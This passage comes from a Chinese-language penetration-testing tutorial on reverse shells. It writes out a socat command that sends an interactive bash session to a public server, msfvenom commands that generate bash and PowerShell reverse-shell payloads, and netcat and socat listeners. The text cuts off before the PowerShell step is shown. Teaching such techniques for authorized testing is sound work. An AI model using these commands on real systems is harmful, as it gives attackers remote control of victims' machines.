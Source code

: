 ![img](https://image.3001.net/images/20190807/1565160888_5d4a75b8b2842.png!small)

![img](https://image.3001.net/images/20190807/1565160894_5d4a75be79ae1.png!small)

在目标主机上面查看端口信息发现，目标主机与公网IP的8888端口建立了连接，故内网主机的shell反弹到了公网服务器。

![img](https://image.3001.net/images/20190807/1565161618_5d4a7892cbea3.png!small)

除了bash一句话可以反弹shell，还包括不限于python\java\per\php等脚本的一句话，感兴趣的大佬都可以自己去研究一下。小白就不在这里班门弄斧了。

## 冰雪来袭

### socat 反弹一句话

Socat是Linux 下一个多功能的网络工具，它与nc工具差不多，但是看了网上多说人反馈相比NC工具方便的多。为了方便测试，内网主机我们用kali，因为kali上面不用安装，需要在公网IP安装一下。

首先我们在公网上面执行监听9999端口的命令：`socat TCP-LISTEN:9999 -`

目标主机上面执行以下命令：socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:106.xxx.xxx.115:9999

执行完毕后，公网服务器上面就会出现内网的bash，可以执行系统命令。

![img](https://image.3001.net/images/20190807/1565162515_5d4a7c1324ca5.png!small)

### msfvenom 获取反弹一句话

MSF渗透测试框架除了常规的端口扫描、口令爆破、抓包、提权等操作，还可以作为生成一句话反弹shell的工具。我们需要在MSF上面查询到各类的路径信息。本机的服务器有点卡，就不一一列出各类的路径信息。

首先使用bash反弹生成一句话，执行一下命令：msfvenom -p cmd/unix/reverse_bash lhost=MSFIP lport=5555 R 这条命令也可以在自己kaili上面执行生成，只是把IP改为自己的公网IP，本地测试的时候在公网服务器生成的事件特慢，不知道什么原因。

![img](https://image.3001.net/images/20190807/1565164009_5d4a81e919a26.png!small)

一定要先在公网服务器监听5555端口，然后把生成的执行语句在目标主机上面进行执行（执行的命令为上个图片中标红的命令）。不然会出错的。

![img](https://image.3001.net/images/20190807/1565164083_5d4a8233d5edd.png!small)

![img](https://image.3001.net/images/20190807/1565164117_5d4a825548b6b.png!small)

接下来我们玩个刺激的，看看powershell能不能行的通？我们搜索搜索一下是不是有powershell这个模块，通过命令查询，果不其然有这个模块，你要知道pwoershell这个渗透测试框架是非常牛逼的，我们在安全测试过程中不仅遇见Lin环境，更多的遇见的是Win环境。废话少数，下面开始测试

msfvenom -l payloads |grep 'reverse_powershell' //查询powershell模块的位置

![img](https://image.3001.net/images/20190807/1565164240_5d4a82d0c9db1.png!small)

msfvenom -p cmd/windows/reverse_powershell lhost=106.xxx.xxx.115 lport=8899 r //生成payload,类型是Powershell,标红的一段是需要在目标主机上面执行的命令。

![img](https://image.3001.net/images/20190807/1565164449_5d4a83a15ed3f.png!small)

由于执行的命令太多了，小白在这里就不罗列了，还是那句话，首先在公网服务器上执行监听的命令：
``` bash
nc -lvvp 8899 # 监听本机的8899端口
```
下面我们在内网服务器上面执行Powershell命令，看看公网上面会不会反弹shell：
